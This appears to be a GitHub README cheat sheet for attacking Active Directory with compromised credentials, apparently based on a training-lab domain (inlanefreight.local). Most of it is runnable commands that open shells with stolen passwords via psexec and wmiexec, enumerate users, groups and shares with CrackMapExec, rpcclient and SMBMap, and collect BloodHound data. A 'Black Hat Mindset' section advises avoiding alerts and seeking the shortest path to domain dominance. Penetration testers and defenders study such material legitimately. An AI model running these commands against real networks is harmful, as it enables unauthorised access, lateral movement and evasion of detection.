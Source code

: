 
# Active Directory Credential Enumeration

This README focuses on enumerating users, groups, shares, and permissions in an AD environment using compromised credentials to identify potential attack paths.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Connecting to the Target](#connecting-to-the-target)
- [Enumerating Users and Groups](#enumerating-users-and-groups)
- [Enumerating Shares and Permissions](#enumerating-shares-and-permissions)
- [Advanced Enumeration](#advanced-enumeration)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Credential enumeration in AD involves using compromised credentials to gather information about users, groups, shares, and permissions, often leading to privilege escalation or lateral movement. This guide uses CrackMapExec, SMBMap, Impacket, windapsearch, and BloodHound to enumerate the domain and identify weaknesses. Commands are performed from Linux hosts, assuming you have valid credentials (e.g., `forend:Klmcargo2`).

## Setup and Prerequisites

- **Environment**: Linux host for all tools.
- **CrackMapExec**: Install on Linux (e.g., `pip install crackmapexec`).
- **SMBMap**: Install on Linux (e.g., `apt install smbmap`).
- **Impacket**: Install on Linux (e.g., `pip install impacket`) for `psexec.py` and `wmiexec.py`.
- **windapsearch**: Download `windapsearch.py` (e.g., from its GitHub repo) and place in your working directory.
- **BloodHound**: Install the Python version on Linux (e.g., `pip install bloodhound`) and ensure Neo4j is set up for GUI analysis.
- **Credentials**: Use compromised domain credentials (e.g., `forend:Klmcargo2` or `wley:transporter@4`).
- **Network Access**: Ensure connectivity to the target domain controller or host (e.g., `172.16.5.5`).

## Connecting to the Target

Establish a connection to the target using valid credentials.

```bash
# Connect via RDP
xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25

# Connect via PsExec
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125

# Connect via WMI
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

## Enumerating Users and Groups

Discover users, groups, and their relationships in the domain.

```bash
# Enumerate users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users

# Enumerate groups
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups

# List logged-on users
sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users

# Query specific user by RID
rpcclient -U "inlanefreight.local\forend%Klmcargo2" 172.16.5.5 -c "queryuser 0x457"

# Enumerate all domain users
rpcclient -U "inlanefreight.local\forend%Klmcargo2" 172.16.5.5 -c "enumdomusers"

# Enumerate Domain Admins
python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\forend -p Klmcargo2 --da

# Search for nested permissions
python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\forend -p Klmcargo2 -PU
```

## Enumerating Shares and Permissions

Identify accessible shares and their contents for potential data leakage or privilege escalation.

```bash
# Discover SMB shares
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

# Spider a specific share
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share

# Enumerate shares and permissions
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5

# List directories in SYSVOL
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only
```

## Advanced Enumeration

Use BloodHound for comprehensive domain mapping.

```bash
# Collect all domain data with BloodHound
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

## Black Hat Mindset

- **Map Thoroughly**: Enumerate users, groups, and shares to identify high-value targets (e.g., Domain Admins, sensitive shares).
- **Exploit Access**: Use logged-on users and share permissions to find opportunities for lateral movement.
- **Stay Silent**: Minimize interactions with the target to avoid triggering alerts (e.g., use `--dir-only` to reduce noise).
- **Visualize Attacks**: Leverage BloodHound to find the shortest path to domain dominance.

## Resources

- [CrackMapExec Guide](https://github.com/byt3bl33d3r/CrackMapExec/wiki)
- [SMBMap Documentation](https://github.com/ShawnDEvans/smbmap)
- [Impacket Guide](https://github.com/SecureAuthCorp/impacket)
- [windapsearch GitHub](https://github.com/ropnop/windapsearch)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)


